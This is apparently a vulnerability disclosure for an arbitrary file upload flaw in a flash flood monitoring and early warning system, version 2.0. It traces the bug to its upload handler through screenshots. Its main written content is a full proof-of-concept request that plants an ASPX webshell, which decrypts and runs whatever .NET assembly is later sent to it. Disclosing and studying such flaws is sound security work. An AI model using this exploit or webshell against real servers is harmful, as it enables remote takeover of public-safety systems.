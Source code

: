 Flash flood Disaster monitoring and early warning system 2.0 service module has arbitrary file upload vulnerability

official website:http://www.cdwanjiang.com/

version:2.0

Vulnerability location:\Service\FileHandler.ashx

![WPS图片(1)](https://github.com/yueying638/cve/assets/139313752/e6ec69b8-8bb7-4e0e-9785-f4b41c86a8f9)

Tracking class:

\bin\MFCW.Web.dll

// MFCW.Web.Service.FileHandler

![WPS图片(2)](https://github.com/yueying638/cve/assets/139313752/aabe1aaa-f54e-4001-a1e1-57aba22c960d)
![WPS图片(3)](https://github.com/yueying638/cve/assets/139313752/2505e6fe-e6a0-470a-a5e7-feeb9598565b)
![WPS图片(4)](https://github.com/yueying638/cve/assets/139313752/864585e2-af65-4ac1-92f3-91a711cba771)
![WPS图片(5)](https://github.com/yueying638/cve/assets/139313752/b4843048-0e24-4195-8a0d-628a53160a0d)
![WPS图片(6)](https://github.com/yueying638/cve/assets/139313752/144c3e8d-d89b-421d-a3d7-05475acfc6a6)
![WPS图片(7)](https://github.com/yueying638/cve/assets/139313752/dea18149-6f47-4d48-9772-ee5f695a2711)
![WPS图片(8)](https://github.com/yueying638/cve/assets/139313752/729742a0-066b-4c0d-b0be-cba7a20a7c06)

Enter the SaveFile function when passing Action=Upload:
![WPS图片(9)](https://github.com/yueying638/cve/assets/139313752/a11a62db-d745-4fcb-b1b9-f6b80d265d88)
![WPS图片(10)](https://github.com/yueying638/cve/assets/139313752/dd1f6c41-8da9-4b5d-9adb-c6bbda790086)

Enter the WriteFile function:

Unfiltered file types are available to obtain webshell.
![WPS图片(11)](https://github.com/yueying638/cve/assets/139313752/607b52d7-aad1-451f-bb17-841c5cc2c735)

POC
```
POST /Service/FileHandler.ashx?Action=Upload&FileDirectory=E:/SCWJ/Official/Web/MFCW/Upload/&FileName=111.aspx&StartByte=0 HTTP/1.1
Host: xx.xx.xx.xx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJa5U4zOAfmJDcYxj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 885

------WebKitFormBoundaryJa5U4zOAfmJDcYxj
Content-Disposition: form-data; name="userFile"; filename=""
Content-Type: image/jpeg

<%@ Page Language="C#" %>
<%@Import Namespace="System.Reflection"%>
<%@Import Namespace="System.IO"%>
<%
    try {
        string key = "900bc885d7553375";
        byte[] k = Encoding.Default.GetBytes(key);
        Session.Add("sky", key);
        StreamReader sr = new StreamReader(Request.InputStream);
        string line = sr.ReadLine();
        if (!string.IsNullOrEmpty(line))
        {
            byte[] c = Convert.FromBase64String(line);
            Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("U").Equals(this.Context);
            sr.Close();
        }
    }
    catch{ }

%>
------WebKitFormBoundaryJa5U4zOAfmJDcYxj--
```

An error is reported. But it was uploaded
![WPS图片(12)](https://github.com/yueying638/cve/assets/139313752/3e7f26bd-60ce-4b81-a52c-6d0036ac3933)
![WPS图片(13)](https://github.com/yueying638/cve/assets/139313752/e2c18565-25ab-49d4-bc3e-0cec15f2fb1d)

